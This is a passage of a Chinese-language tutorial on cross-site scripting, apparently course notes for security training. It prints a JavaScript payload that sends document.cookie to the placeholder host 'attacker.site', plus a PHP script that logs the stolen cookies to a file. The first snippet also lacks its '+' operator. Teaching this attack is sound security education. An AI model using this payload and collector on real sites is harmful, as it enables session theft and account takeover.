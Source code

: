![alert-cookie.png](/img/in-post/ine/alert-cookie.png)

使用以下代码，您可以将 cookie 内容发送到攻击者控制的站点。

```javascript
<script>
var i = new Image();
i.src = "http://attacker.site/log.php?q="document.cookie;
</script>
```

该脚本生成一个图像对象并将其 src 指向攻击者服务器 (attacker.site) 上的脚本。

```
"http://attacker.site/log.php?q="+document.cookie
```

浏览器无法提前判断来源是否为真实图像，因此即使不显示任何图像，它也会加载并执行脚本！ 所以cookie实际上被发送到了attacker.site。

log.php 脚本将 cookie 保存在 attacker.site 上的文本文件中：

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

## Hack.me
如果您想尝试更多的 XSS 和 Web 应用程序攻击，您可以免费注册 [Hack.me](https://hack.me/)，这是一个由 eLearnSecurity 构建的平台，可以即时运行易受攻击的 Web 应用程序！
我们在之前的幻灯片中向您展示的示例托管在 Hack.me 上！

## Resources（资源）
在我们结束本章关于跨站点脚本漏洞和攻击之前，如果您想加深知识，这里有一些有用的参考资料：

[Web Application Hacker's Handbook](https://www.amazon.com/The-Web-Application-Hackers-Handbook/dp/1118026470) 是关于 Web 应用程序安全性的最全面的书籍之一。

[OWASP - XSS](https://owasp.org/www-community/attacks/xss/) 开放 Web 应用程序安全项目的跨站点脚本章节。

## References
[Hack.me](https://hack.me/)